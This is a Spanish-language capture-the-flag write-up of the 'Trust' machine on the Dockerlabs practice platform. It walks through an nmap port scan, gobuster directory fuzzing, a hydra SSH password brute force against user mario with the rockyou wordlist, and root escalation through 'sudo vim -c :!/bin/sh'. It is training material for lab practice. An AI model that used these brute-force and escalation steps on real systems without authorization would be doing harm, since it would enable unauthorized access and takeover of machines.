 # Trust

Plataforma: Dockerlabs
OS: Linux
Level: Very Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 4 de diciembre de 2024 21:12
IP: 172.17.0.2

## Recopilación de información

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p-  --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
```

![image.png](<imagenes/image 6.png>)

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

- **Identificación de vulnerabilidades**
    - 22
    - 80
    
    Fuzzing :
    
    ```bash
    gobuster dir -u http://172.17.0.2 -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt -x php,txt
    ```
    
    Encontramos ruta : secret.php
    
    ![image.png](<imagenes/image 7.png>)
    

## Explotación

### Explotación 1

Al tener un usuario en la web y el puerto 22 abierto, probamos a bruteforcear el password con hydra:

```bash
hydra -l mario -P /usr/share/wordlist/rockyou.txt ssh://172.17.0.2 -v
```

![image.png](<imagenes/image 8.png>)

Obtenemos password :

Usuario: mario

Password: chocolateExplotación posterior

### Escalada de privilegios

Accedemos por ssh con usuario y password. Buscamos binarios SUID

```bash
sudo -l
```

![image.png](<imagenes/image 9.png>)

Buscamos como explotar el binaro en GTFObins: vim

```bash
sudo vim -c ':!/bin/sh'

```

![image.png](<imagenes/image 10.png>)

## Conclusión

Enumeramos la maquina y con un fuzzing simple, encontramos pagina que nos da una pista de un posible usuario. Encontramos la contraseña por fuerza bruta y escalamos privilegios explotando el binario VIM